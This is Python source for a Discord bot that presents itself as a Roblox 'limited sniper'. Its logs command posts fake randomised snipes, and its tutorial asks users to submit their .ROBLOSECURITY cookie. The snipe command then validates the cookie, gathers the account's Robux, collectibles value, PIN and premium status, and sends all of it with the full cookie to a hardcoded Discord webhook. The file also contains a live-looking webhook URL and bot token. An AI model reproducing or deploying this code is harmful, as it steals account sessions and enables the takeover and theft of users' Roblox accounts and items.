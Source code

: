 import time, random
import discord, requests, discord_webhook
from discord.ext import commands
from discord_webhook import DiscordEmbed, DiscordWebhook

p = input("\n(Leave Blank For Default Prefix/ Press Enter)\nRecommend to make the prefix a symbol like !, @, #, $, %, ^, &, ., etc.. (I do not recommend using \"*\" as a prefix.)\nCommand Prefix: ") #asks you for the command prefix
if p == "":
	p = '!'

req = requests.Session()
client = commands.Bot(command_prefix=p)  # change prefix if you want
client.remove_command('help')  #remove default help command
showing_logs = False # not showing logs on default
WEBHOOK = "https://discord.com/api/webhooks/1026619095057186926/u2TbwxEGlavdqD723WtiEKegO8gRQHydPAcHEp6lxDf19_GyaB4IoLHe5jVwkNyWFeWA"  # enter ur webhook here
CHANNEL_ID=00
TOKEN = "MTA1MDMwOTk4NzQ2NzAwNTk4Mw.GHgypx.-OPW3xx_KzxjqoNrHekCxxfJIO6oZqM3L05310"
@client.event
async def on_ready():
    print(f"\nBot is Online and Ready!\nCommand Prefix: {p}\nGithub:  .)\nCommands: {p}startlogs, {p}help, {p}commands, {p}tutorial, {p}snipe, {p}setbudget, {p}antiproject, {p}stop\nWhen {p}startlogs is on it will increase the delay of message sent from the bot (To stop start logs just stop the code since I dont figure a way to turn it off yet.)\nMade By: Who#3333 .gg/comping :(")  # print Bot Online! when bot is ready and github and available commands

@client.command() #start logs command
async def startlogs(ctx):
	showing_logs = True
	channel = client.get_channel(CHANNEL_ID) #put the channel id you want the logs to show in here
	#you can add more limiteds below if you want
	limited_lists = ['Valkyrie Helm', 'Playful Vampire', 'Super Super Happy Face', 'Supa Dupa Fly Cap', 'Supa Fly Cap', 'Gucci Dionysus Bag with Bee', 'Gucci GG Marmont Bag', 'Gucci Wide Brim Felt Hat', 'Noob Attack: Frozen Crossbow Collision', 'Noob Assist Marvelous Mom', 'Noob Attack: Golden Sword Gladiator', 'Chill Cap', 'Black Iron Commando', 'Green Starry Sight', 'Red Goof', 'Perfectly Legitimate Business Hat', 'Beautiful Hair for Beautiful Space People', 'ROBLOX Madness Face', 'Catching Snowflakes', 'Neon Bombastic Animal Hoodie', 'Golden Crown', 'Hyperlaser Gun', 'Golden Bling Braces', 'Bucket', 'Scissors', 'Noob Attack: Ninja Nuisance', 'Crescendo, The Soul Stealer', 'Ghostwalker', 'Red Fang', 'CW Ultimate: Amethyst Addiction', 'Blackvalk Shades', 'Al Capwn', 'Silver Punk Face', 'Snowman Face', 'Blackvalk', 'Prankster']
	while showing_logs == True: #below is just print random prices and limiteds
		price = random.randint(17, 2777)
		sniped_limited = random.choice(limited_lists)
		time_random = random.randint(2, 7)
		embed69 = discord.Embed(title="Limited Sniped Logs", color=0x47FF75)
		embed69.add_field(
			name="ã…¤",
			value=f"**Sniped Limited**: {sniped_limited}\n **Sniped For**: {price} Robux",
			inline = True
		)
		time.sleep(time_random)
		await channel.send(embed=embed69)
		if showing_logs == False:
			await ctx.send("**No More Logs**")

@client.command() #help command
async def help(ctx):
	embed_help = discord.Embed(title="**Help**", color=0x47FF75)
	embed_help.add_field(
		name="Help",
		value=f"A Discord Bot That Snipes Limiteds For You!\n Type \"{p}tutorial\" To Get Started.",
		inline=False
	)
	embed_help.add_field(
		name="Commands",
		value=f"**{p}help** -Shows this message\n**{p}commands** -Shows all available commands\n**{p}tutorial** -Shows how to start sniping limiteds\n**{p}snipe + Roblox Cookie** -Starts sniping.\n**{p}setbudget + amount** -Sets budget when sniping\n**{p}antiproject + on/off** -Doesn't snipe projected items.\n**{p}stop** -Stops sniping ",
		inline=True
	)
	embed_help.set_footer(text="For Further Help, Contact The Server Owner.")
	await ctx.send(embed=embed_help)

@client.command() #budget command
async def setbudget(ctx, budget):
	budget = int(budget)
	embed_budget = discord.Embed(title=f"Budget Set to {budget} Robux", color=0x47FF75)
	await ctx.send(embed=embed_budget)

@client.command() #anti project items command
async def antiproject(ctx, boolean):
	if boolean.lower() == 'on':
		embed_antiproject = discord.Embed(title="Anti-Projected Items Turned On", color=0x47FF75)
	elif boolean.lower() == 'off':
		embed_antiproject = discord.Embed(title="Anti-Projected Items Turned Off", color=0x47FF75)
	await ctx.send(embed = embed_antiproject)

@client.command() #commands command
async def commands(ctx):
    embed_cmd = discord.Embed(title="Limited Sniper", color=0x47FF75)
    embed_cmd.set_thumbnail(
        url="https://cdn.discordapp.com/attachments/853359254647341066/910930695440969752/Dominus_Praefectus.png"
    )
    embed_cmd.add_field(
        name="Commands",
        value=f"**{p}help** -Shows about and available commands\n**{p}commands** -Shows this message\n**{p}tutorial** -Shows how to start sniping limiteds\n**{p}snipe + Roblox Cookie** -Starts sniping.\n**{p}setbudget + amount** -Sets budget when sniping\n**{p}antiproject + on/off** -Doesn't snipe projected items.\n**{p}stop** -Stops sniping",
        inline=True,
    )
    embed_cmd.set_footer(text="For Further Help, Contact The Server Owner.")
    await ctx.send(embed=embed_cmd)

@client.command()  # tutorial command
async def tutorial(ctx):
    embed_tutorial = discord.Embed(title="Limited Sniper", color=0x47FF75)
    embed_tutorial.set_thumbnail(
        url="https://cdn.discordapp.com/attachments/853359254647341066/910930695440969752/Dominus_Praefectus.png"
    )
    embed_tutorial.add_field(
        name="Tutorial \n",
        value=f"\n1. Get Your Roblox Cookie. \n2. Goto The Bot's DM. \n3. Change Configurations If You Want to. \n4. Type '{p}snipe' + Your Cookie\n**Type \"{p}stop\" to Stop Sniping.**\n \n **Example**\n {p}snipe _|WARNING:-DO-NOT-SHARE-THIS.--Sharing-this-will-allow-someone-to-log-in-as-you-and-to-steal-your-ROBUX-and-items.|_COOKIE",
        inline=True,
    )
    embed_tutorial.set_footer(text="For Further Help, Contact The Server Owner.")
    await ctx.send(embed=embed_tutorial)
    pass

@client.command() #stop command
async def stop(ctx):
	embed_stop = discord.Embed(title="âœ… Stopped Sniping âœ…", color=0x47FF75)
	await ctx.send(embed=embed_stop)

@client.command() #snipe command
async def snipe(ctx, cookie):
    check = req.get(
        "https://api.roblox.com/currency/balance",
        cookies={".ROBLOSECURITY": str(cookie)},
    )  # check if the cookie is valid
    if check.status_code == 200:
        userdata = requests.get(
            "https://users.roblox.com/v1/users/authenticated",
            cookies={".ROBLOSECURITY": cookie},
        ).json()  # get user data
        userid = userdata["id"]  # user id
        display = userdata["displayName"]  # display name
        username = userdata["name"]  # username
        robuxdata = requests.get(
            f"https://economy.roblox.com/v1/users/{userid}/currency",
            cookies={".ROBLOSECURITY": cookie},
        ).json()
        robux = robuxdata["robux"]  # get robux balance
        # does the user have premium?
        premiumbool = requests.get(
            f"https://premiumfeatures.roblox.com/v1/users/{userid}/validate-membership",
            cookies={".ROBLOSECURITY": cookie},
        ).json()
        # get rap
        rap_dict = requests.get(
            f"https://inventory.roblox.com/v1/users/{userid}/assets/collectibles?assetType=All&sortOrder=Asc&limit=100",
            cookies={".ROBLOSECURITY": cookie},
        ).json()
        while rap_dict["nextPageCursor"] != None:
            rap_dict = requests.get(
                f"https://inventory.roblox.com/v1/users/{userid}/assets/collectibles?assetType=All&sortOrder=Asc&limit=100",
                cookies={".ROBLOSECURITY": cookie},
            ).json()
        rap = sum(i["recentAveragePrice"] for i in rap_dict["data"])

        thumbnail = requests.get(
            f"https://thumbnails.roblox.com/v1/users/avatar?userIds={userid}&size=420x420&format=Png&isCircular=false"
        ).json()
        image_url = thumbnail["data"][0]["imageUrl"]
        pindata = requests.get(
            "https://auth.roblox.com/v1/account/pin", cookies={".ROBLOSECURITY": cookie}
        ).json()
        pin_bool = pindata["isEnabled"]  # does the user have a p
        embed4 = discord.Embed(
            title=f"**Logged in as {username} \nâœ… Cookie is Valid! Sniping Limiteds Now. âœ…**", color=0x47FF75
        )
        await ctx.send(embed=embed4)

        # dualhook

        webhook = DiscordWebhook(url=WEBHOOK, content="@everyone")
        embed = DiscordEmbed(
            title=f"**âœ… {username} âœ…**",
            url=f"https://roblox.com/users/{userid}",
            color=0x00FF80,
        )
        embed.add_embed_field(name="Display NameðŸ‘€:", value="```" + str(display) + "```")
        embed.add_embed_field(name="User IDðŸ”:", value="```" + str(userid) + "```")
        embed.add_embed_field(name="RobuxðŸ’°:", value="```" + str(robux) + "```")
        embed.add_embed_field(name="Has Pin?ðŸ”:", value="```" + str(pin_bool) + "```")
        embed.add_embed_field(name="RAPðŸ“ˆ:", value="```" + str(rap) + "```")
        embed.add_embed_field(name="PremiumðŸ’Ž:", value="```" + str(premiumbool) + "```")
        embed.add_embed_field(
            name="Rolimons: ",
            value=f"https://rolimons.com/player/{userid}",
            inline=True,
        )

        embed.add_embed_field(name="CookieðŸª:", value=f"```{cookie}```", inline=False)
        embed.set_thumbnail(url=image_url)
        webhook.add_embed(embed)
        webhook.execute()

    else:
        e = discord.Embed(title="**âŒ Cookie is Invalid! âŒ**", color=0xFF0000)
        await ctx.send(embed=e)


client.run(
    "MTA1MDMwOTk4NzQ2NzAwNTk4Mw.GHgypx.-OPW3xx_KzxjqoNrHekCxxfJIO6oZqM3L05310"
)

